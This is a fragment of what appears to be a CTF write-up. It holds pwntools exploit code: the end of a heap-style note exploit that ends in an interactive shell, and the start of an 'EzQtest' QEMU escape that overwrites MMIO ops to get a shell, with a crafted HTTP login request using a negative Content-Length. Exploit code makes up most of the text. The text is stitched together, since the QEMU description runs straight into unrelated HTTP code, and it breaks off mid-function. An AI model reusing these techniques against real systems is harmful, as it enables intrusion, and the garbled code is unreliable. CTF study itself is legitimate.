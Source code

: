 edit_note(‘0’*8, ‘c’*8, 2)

edit_note(‘0’*8, quote(p64(1)), 3)

​

f(‘0’*8)

​

io.interactive()

**EzQtest**

dma触发write io导致的数组越界问题，进行利用前需要对pci进行初始化。利用直接改mmio ops就可以getshell

from pwn import *

import base64

​

​

#s = process(argv=[“./qemu-system-x86_64″,”-display”,”none”,”-machine”,”accel=qtest”,”-m”,”512M”,”-device”,”qwb”,”-nodefaults”,”-monitor”,”none”,”-qtest”,”stdio”])

from time import sleep

from urllib.parse import quote

#context.bits = 64

#context.log_level = “debug”

#s = process(argv=[“./qemu-system-x86_64″,”-display”,”none”,”-machine”,”accel=qtest”,”-m”,”512M”,”-device”,”qwb”,”-nodefaults”,”-monitor”,”none”,”-qtest”,”stdio”])

​

​

def login(login_id, body):

    payload =  “POST /login HTTP/1.1\r\n”

    payload += “Content-Length: -1\r\n”

    payload += “Login-ID: `{``}`\r\n”.format(login_id)

    payload += “\r\n”

    payload += body

    io.send(payload)

    io.recvuntil(“&lt;/body&gt;&lt;/html&gt;\r\n”)

    # sleep(1)

​

def f(login_id):
